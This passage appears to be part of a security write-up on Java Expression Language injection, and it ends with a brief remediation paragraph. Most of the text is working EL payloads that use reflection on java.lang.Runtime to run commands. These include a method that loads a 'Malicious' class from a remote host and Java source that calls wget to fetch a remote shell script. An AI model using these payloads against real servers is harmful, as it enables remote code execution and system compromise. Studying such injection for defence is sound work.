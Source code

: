  

#{session.setAttribute(&quot;rtc&quot;,&quot;&quot;.getClass().forName(&quot;java.lang.Runtime&quot;).getDeclaredConstructors()[0])}

#{session.getAttribute(&quot;rtc&quot;).setAccessible(true)}

#{session.getAttribute(&quot;rtc&quot;).getRuntime().exec(&quot;/bin/bash –c whoami&quot;)}

 

**Method 5**. Using **reflection &amp; invoke** to execute external command

${&quot;&quot;.getClass().forName(&quot;java.lang.Runtime&quot;).getMethods()[6].invoke(&quot;&quot;.getClass().forName(&quot;java.lang.Runtime&quot;)).exec(&quot;calc.exe&quot;)}



**Method 6.**** Load Malicious.class** from remote URL [3]

${request.setAttribute(&quot;a&quot;,&quot;&quot;.getClass().forName(&quot;java.util.ArrayList&quot;).newInstance())}

payloadEL += &#39;${request.getAttribute(&quot;a&quot;).add(request.getServletContext().getResource(&quot;/&quot;).toURI().create(&quot;http://x.x.x.x:8080/&quot;).toURL())}&#39;

payloadEL += &#39;${request.setAttribute(&quot;b&quot;,request.getClass().getClassLoader().getParent().newInstance(request.getAttribute(&quot;a&quot;).toArray(request.getClass().getClassLoader().getParent().getURLs())).loadClass(&quot;Malicious&quot;).newInstance())}&#39;

payloadEL += &#39;${facesContext.getExternalContext().setResponseHeader(&quot;output&quot;, request.getAttribute(&quot;b&quot;).bang())}&#39;

Malicious.java

1. **public**   **class**  Malicious {
2.
3.         **public**   **static**   **void**  bang() {
4.                **try**  {
5.             System.out.println(&quot;Program Started  P Exploit...&quot;);
6.
7.                      java.lang.Runtime.getRuntime().exec( **new**  String[]{&quot;wget&quot;,&quot;http://x.x.x.x.com/1.sh&quot;}); //Mac
8.
9.               }  **catch**  (Exception e) {
10.
11.               }
12.
13.        }
14. }



 

##
## Remediation

Whenever possible, applications should avoid incorporating user-controllable data into dynamically evaluated code. In almost every situation, there are safer alternative methods of implementing application functions, which cannot be manipulated to inject arbitrary code into the server&#39;s processing.
